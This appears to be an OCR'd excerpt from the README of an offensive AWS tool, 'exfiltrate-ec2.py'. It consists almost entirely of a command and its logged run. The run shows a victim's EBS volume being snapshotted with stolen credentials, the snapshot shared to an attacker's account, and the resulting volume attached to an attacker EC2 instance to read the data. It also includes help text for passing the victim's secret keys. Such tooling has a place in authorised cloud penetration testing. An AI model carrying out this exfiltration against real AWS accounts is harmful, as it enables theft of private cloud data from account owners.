 ```
                        Victim's AWS Access Key ID to use if --profile was not
                        specified
  --victim-secret-key VICTIM_SECRET_KEY
                        Victim's AWS Secret Key ID
  --victim-token VICTIM_TOKEN
                        (Optional) Victim's AWS temporary session token


attacker $ python3 ./exfiltrate-ec2.py --region us-east-1 -v --profile default --victim-profile victim-profile createsnapshot --volume-id vol-0f340890acfXXXXX --attach-instance-id i-0b359b0fcbcYYYYY

        :: exfiltrate-ec2
        Exfiltrates EC2 data by creating an image of it or snapshot of it's EBS volume
        Mariusz Banach / mgeeky '19, <mb@binary-offensive.com>

[.] Using attacker's profile: default
[.] Using victim's profile: victim-profile
[.] Using region: us-east-1
[.] Authenticating using Attacker's AWS credentials...
[.] Authenticating using Victim's AWS credentials...
[>] Abusing dangerous ec2:CreateSnapshot and ec2:ModifySnapshotAttribute...

[>] Step 1: Creating EBS volume snapshot. VolumeId = vol-0f340890acfXXXXX
[+] Snapshot of volume vol-0f340890acfXXXXX created: snap-0d7a43f0ff34ZZZZ
[>] Step 2: Modifying snapshot attributes to share it with UserId = 71284700000
[+] Snapshot's attributes modified to share it with user 71284700000
[>] Step 3: Waiting for the snapshot to transit into completed state.
[>] Step 4: Creating EBS volume in Attacker's 71284700000 AWS account.
[.] Obtained Attacker's EC2 instance Availbility Zone automatically: us-east-1d
[+] Created EBS volume (vol-04f36e35abeWWW at Attacker's side out from exfiltrated snapshot (snap-0d7a43f0ff34ZZZZ)
[>] Step 5: Waiting for the volume to transit into created state.
[>] Step 6: Attaching created EBS volume to Attacker's specified EC2 instance
[-] Attacker's machine is in running state, preventing to attach it a volume.
[.] Trying to stop the EC2 instance, then attach the volume and then restart it.
[+] Attached volume to the specified Attacker's EC2 instance: i-0b359b0fcbcYYYYY
[.] Restarting it...

===============================================================
[MODULE FINISHED]
===============================================================

[+] Exfiltrated snapshot of a victim's EBS volume:
    VictimVolumeId = vol-0f340890acfXXXXX

[+] By creating a snapshot of it, shared to the attacker's AWS user ID.
    SnapshotId = snap-0d7a43f0ff34ZZZZ

If everything went fine, Attacker's AWS account 71284700000 should have a EBS volume now:
    AttackerVolumeId = vol-04f36e35abeWWW

That was attached to the specified attacker's EC2 instance:
    AttackerInstanceId = i-0b359b0fcbcYYYYY
    AvailibityZone = us-east-1d

Most likely as a '/dev/xvdf' device. 

===============================================================
To examine exfiltrated data:

    0) SSH to the attacker's EC2 instance
        # ssh ec2-user@18.206.230.190

```